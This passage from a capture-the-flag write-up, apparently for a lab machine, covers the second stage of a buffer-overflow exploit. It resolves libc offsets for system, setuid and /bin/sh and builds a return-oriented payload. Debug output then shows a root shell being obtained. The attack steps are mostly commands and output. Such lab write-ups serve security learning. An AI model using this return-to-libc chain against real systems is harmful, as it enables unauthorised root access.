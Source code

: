 	[*] Leaked address: �ya\x8a%\x7f\x00\x00
	[+] Leaked puts@GLIBC: 139799212161472

The code is available [here](/resources/ellingson/stage1.py)

### Part 2: shell

We need to find the location of the functions and the strings we need inside of `libc`. To do this, we copy the remote library on our box and run:

	root@pentestbox:~# readelf -s libc.so.6 | grep system
	1403: 000000000004f440    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

	root@pentestbox:~# readelf -s libc.so.6 | grep setuid
	23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5

	root@pentestbox:~# readelf -s libc.so.6 | grep puts
	422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5

	root@pentestbox:~# strings -a -t x libc.so.6 | grep 'string'
	1b3e9a /bin/sh

Note that we've taken the functions with the `bind WEAK` always.

At runtime, we'll need to calculate the offset as the difference between the leaked address and the location of the functions in the library. 

Now, we can build our payload:

	payload = junk + pop_rdi + null + setuid + pop_rdi + sh + sys

Note that `null` is 0, which is the argument for the `setuid()` function and `junk` is still the 136 `a`.

The run of the complete exploit gives us:
	
	[...]
	[*] Stage 2 : Payload : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9b\x17@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00p��m|\x00\x00\x9b\x17@\x00\x00\x00\x00\x00\x9a��m|\x7f\x00\x00@\x94�m|\x7f\x00\x00
	[*] Enter access password: 
	[DEBUG] Sent 0xb9 bytes:
	    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
	    *
	    00000080  41 41 41 41  41 41 41 41  9b 17 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
	    00000090  00 00 00 00  00 00 00 00  70 f9 de 6d  7c 7f 00 00  │····│····│p··m│|···│
	    000000a0  9b 17 40 00  00 00 00 00  9a de eb 6d  7c 7f 00 00  │··@·│····│···m│|···│
	    000000b0  40 94 d5 6d  7c 7f 00 00  0a                        │@··m│|···│·│
	    000000b9
	[*] Switching to interactive mode
	[DEBUG] Received 0x1 bytes:
	    '\n'

	[DEBUG] Received 0x11 bytes:
	    'access denied.\n'
	    '# '
	access denied.
	# $ whoami
	[DEBUG] Sent 0x7 bytes:
	    'whoami\n'
	[DEBUG] Received 0x5 bytes:
	    'root\n'
	root
	[DEBUG] Received 0x2 bytes:
	    '# '